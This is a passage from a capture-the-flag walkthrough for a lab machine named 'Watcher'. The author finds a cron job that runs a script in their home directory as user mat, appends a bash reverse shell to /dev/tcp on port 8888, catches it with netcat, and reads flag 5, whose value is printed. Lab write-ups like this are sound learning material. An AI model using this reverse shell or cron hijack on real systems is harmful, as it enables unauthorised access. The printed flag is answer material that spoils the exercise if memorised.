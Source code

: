 So we know that user `mat` has set a cronjob. Let's check `/etc/crontab` to see what file it is:

~~~
toby@watcher:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/1 * * * * mat /home/toby/jobs/cow.sh
~~~

It is a bash script named `cow.sh` and it is located in our home directory and the script is being ran by user `mat`. So if change its content with a bash reverse shell, we can gain a shell as user `mat`.

Start a listener and then run the following command on the target machine to replace the content with a bash reverse shell. Wait for a bit and you'll get the shell:

Target machine:
~~~
toby@watcher:~$ echo 'bash -c "bash -i >& /dev/tcp/<YOUR IP>/8888 0>&1"' >> ~/jobs/cow.sh
~~~

My machine:
~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Watcher]
└─$ rlwrap nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.9.0.209] from (UNKNOWN) [10.10.36.78] 50434
bash: cannot set terminal process group (3037): Inappropriate ioctl for device
bash: no job control in this shell
mat@watcher:~$ id
uid=1002(mat) gid=1002(mat) groups=1002(mat)
~~~

Great! Now we are switched to user `mat`. The 5th flag is located in `mat`'s home directory:

~~~
mat@watcher:~$ ls
cow.jpg
flag_5.txt
note.txt
scripts
mat@watcher:~$ cat flag_5.txt
FLAG{live_by_the_cow_die_by_the_cow}
~~~
